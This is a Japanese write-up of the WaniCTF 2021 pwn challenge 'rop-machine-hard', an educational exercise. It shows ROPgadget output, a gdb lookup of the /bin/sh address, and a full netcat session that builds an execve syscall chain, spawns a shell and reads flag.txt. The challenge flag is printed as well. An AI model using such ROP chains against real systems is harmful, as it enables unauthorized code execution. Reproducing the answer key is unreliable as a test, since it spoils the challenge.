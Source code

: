 # rop-machine-hard [pwn]
## 問題文

```
nc rop-hard.pwn.wanictf.org 9005
```

### ヒント

+ ROPgadgetコマンドの使い方を覚えましょう。
+ rop machineの使い方->[wani-hackase/rop-machine](https://github.com/wani-hackase/rop-machine/)


### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)
+ [ROPgadget](https://github.com/wani-hackase/memo-setup-pwn-utils#ROPgadget)

### gccのセキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ Stack Smash Protection (SSP)有効
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG

```
FLAG{y0ur-next-step-is-to-use-pwntools}
```


## 解法

### はじめに

04 rop machine normalのをROPgadgetで実際にアドレスを調べてそのアドレスと値を積んでいくだけです。
これができればROPの作り方はほぼほぼマスターと言っていいのではと思います。
正答者数も04 rop machine normalの80～90%だったのでちょうどよかったかと思います。

#### アドレス調べ

`ROPbadget --binary ./pwn05`でgadgetのアドレスを調べます。

```
0x000000000040128f : pop rdi ; ret
0x00000000004012a9 : pop rax ; ret
0x000000000040129c : pop rdx ; ret
0x0000000000401611 : pop rsi ; pop r15 ; ret
0x00000000004012b6 : syscall
```

`pop rsi ; pop r15 ; ret`だけが前のガジェットと少し違います。


`/bin/sh`が入っているアドレスを調べる方法ですが、stringsとかobjdumpとかで調べることもあるのですが、gdbが一番楽かもです。
gdbでpwn05を起動してstartして`p &binsh`でアドレスが分かります。

```
$ gdb ./pwn05
(gdb) start
Temporary breakpoint 1 at 0x40157e
Starting program: /home/saru/2021/wanictf2021s-challenge/pwn/05-rop-machine-hard/file/pwn05

Temporary breakpoint 1, 0x000000000040157e in main ()
(gdb) p &binsh
$1 = (<data variable, no debug info> *) 0x404078 <binsh>
(gdb)
```

#### rop machineへの入力

あとはこれらのアドレスを組み合わせてROPを組むだけです。

```
$ nc rop-hard.pwn.wanictf.org 9005

[menu]
1. append hex value
8. show menu (this one)
9. show rop_arena
0. execute rop
> 1
hex value?: 40128f
0x000000000040128f is appended
> 1
hex value?: 404078
0x0000000000404078 is appended
> 1
hex value?: 40129c
0x000000000040129c is appended
> 1
hex value?: 0
0x0000000000000000 is appended
> 1
hex value?: 401611
0x0000000000401611 is appended
> 1
hex value?: 0
0x0000000000000000 is appended
> 1
hex value?: 0
0x0000000000000000 is appended
> 1
hex value?: 4012a9
0x00000000004012a9 is appended
> 1
hex value?: 3b
0x000000000000003b is appended
> 1
hex value?: 4012b6
0x00000000004012b6 is appended
> 0
     rop_arena
+--------------------+
| 0x000000000040128f |<- rop start
+--------------------+
| 0x0000000000404078 |
+--------------------+
| 0x000000000040129c |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x0000000000401611 |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| 0x00000000004012a9 |
+--------------------+
| 0x000000000000003b |
+--------------------+
| 0x00000000004012b6 |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{y0ur-next-step-is-to-use-pwntools}
^C
(base) saru@saru-cf-rz:~/2021/wanictf2021s-challenge/pwn/05-rop-machine-hard/file
$
```

